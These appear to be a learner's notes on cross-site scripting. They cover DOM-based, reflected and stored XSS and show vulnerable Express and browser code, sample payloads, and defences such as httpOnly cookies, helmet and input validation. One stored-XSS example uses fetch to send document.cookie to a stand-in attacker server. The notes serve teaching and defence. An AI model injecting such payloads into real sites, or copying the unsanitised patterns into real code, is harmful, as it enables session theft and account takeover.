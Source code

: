 # attacking a webpage

## DOM-Based XSS Attack
- alters DOM in victim's browser
- unsanitised input eg: from a form field
- vulnerable code in html

vulnerable code:
```js
element.innerHTML = "string made from user input";
// better to use .textContent so string will be displayed as text rather than parsed as HTML
document.write("string made from user input");
```

Malicious user input via form:
```html
<img src="bad_image" onerror="alert('Hacked!')">
```

## Reflected XSS Attack

- vulnerable code on server that responds to request

### vulnerable code

```js
const s = "Could not find product: " + req.query.q;
  result = result.toString().replace("<!-- SEARCH -->", s);
  res.send(result);
```

### request
```html
http://localhost:8000/search?q=<script>document.body.style.background = "red"</script>
```

## Stored XSS Attack
- user input (eg: comment) is saved to database
- is displayed when any user requests that content

This script sends a request tot he hacker's server, using the target's cookie as a payload.

```html
<script>fetch(`http://localhost:5000?data=${document.cookie}`)</script>
```

set `httpOnly` in the session cookie

```js
const express = require("express");
const session = require("express-session");
const helmet = require("helmet");
// ...
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
);
// Helmet.js is a collection of 15 Node modules that interface with Express. Each module provides configuration options for securing different HTTP headers. 
app.use(helmet());
```

## validation

```js
const { check } = require("express-validator");

app.post("/login", [
  check('email').isEmail(),
  check('password').isLength({min: 5}),
], (req, res) => {});
```